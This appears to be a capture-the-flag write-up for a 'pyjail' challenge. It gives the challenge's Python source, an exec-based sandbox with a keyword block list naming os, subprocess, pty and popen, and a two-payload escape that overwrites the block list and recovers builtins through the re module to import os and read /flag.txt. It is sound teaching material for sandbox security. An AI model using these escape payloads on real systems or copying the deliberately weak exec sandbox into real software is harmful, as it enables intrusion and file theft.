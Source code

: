 # pyjail

#### Description:
```
Escape me plz.

EU instance: 207.180.200.166 1024

US instance: 45.134.3.200 1024
```
#### Files:
jailbreak.py
```python
#!/usr/bin/env python3

import re
from sys import modules, version

banned = "import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data"
search_func = lambda word: re.compile(r"\b({0})\b".format(word), flags=re.IGNORECASE).search

modules.clear()
del modules

def main():
    print(f"{version}\n")
    print("What would you like to say?")
    for _ in range(2):
        text = input('>>> ').lower()
        check = search_func(banned)(''.join(text.split("__")))
        if check:
            print(f"Nope, we ain't letting you use {check.group(0)}!")
            break
        if re.match("^(_?[A-Za-z0-9])*[A-Za-z](_?[A-Za-z0-9])*$", text):
            print("You aren't getting through that easily, come on.")
            break
        else:
            exec(text, {'globals': globals(), '__builtins__': {}}, {'print':print})

if __name__ == "__main__":
    main()
```

#### Auther:
pop_eax & Tango
#### Points and solvers:
At the end of the CTF, 95 teams solved this challenge and it was worth 437 points.

## Solution:
We first read the code carefully, notice we have two payloads to enter the code and we assume that we need to read a file in order to win.   
There are two checks that payload needs to pass, first check makes sure the payload does not contain the words `import`, `chr`, `os` etc. and the second check is quite basic and we can ignore it for now. 
Let's create the first payload with intention to remove the bounderies for the second payload, unlike in C when running an `exec` command we can interact with the variables of the progam, 
this means we can try to overwrite the `banned` or the `search_func` variables. Global python variables are saved in the `globals` dictionary, when printing it (payload = `print(globals)`) we recive:

```python
{'__name__': '__main__', '__doc__': ..., 're': <module 're' from '/Library/Frameworks/Python.framework/Versions/3.6/lib/python3.6/re.py'>, ..., 'banned': 'import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data', 'search_func': ...}
```

Lets indeed overwrite `banned`: payload = `globals['banned'] = 'string_we_are_never_going_to_use'`, when printing again we get:

```python
{'__name__': '__main__', '__doc__': ..., 're': <module 're' from '/Library/Frameworks/Python.framework/Versions/3.6/lib/python3.6/re.py'>, ..., 'banned': 'string_we_are_never_going_to_use', 'search_func': ...}
```

Great! The second payload [can be whatever we want](https://i.imgur.com/pEq5Ohz.jpg) it to be.   
Now for the second payload. We cannot use `open` since the `open` function is part of the python `__builtins__`, a function that is built in in the laguage, and when running `exec` with `'__builtins__': {}` all of our built in function s were removed.
So what next? After a quick google search "How to restore builtins" you will arrive to [this stackoverflow answer](https://stackoverflow.com/a/25824045/7501501) that says that each python module contains builtin for itself! 
In the globals we see we can access the `re module` lets try to use the open function from this module's builtins:   
second payload = `print(globals['re'].__builtins__['open'])`

```python
<built-in function open>
```

Once again, success, now we can use any builtin function we want, even importing other modules: `globals['re'].__builtins__['__import__']('os')`, after messing around with `os` to find the flag in the file system we find that the path is `/flag.txt`, let's print it:

payload 1: `globals['banned'] = 'string_we_are_never_going_to_use'`   
payload 2: `__builtins__ = globals['re'].__builtins__; print(__builtins__['open']('/flag.txt', 'rb').read());`

### Flag:
`flag{}`

(The server shut down after the event so I do not remember the flag, believe me it works lol)
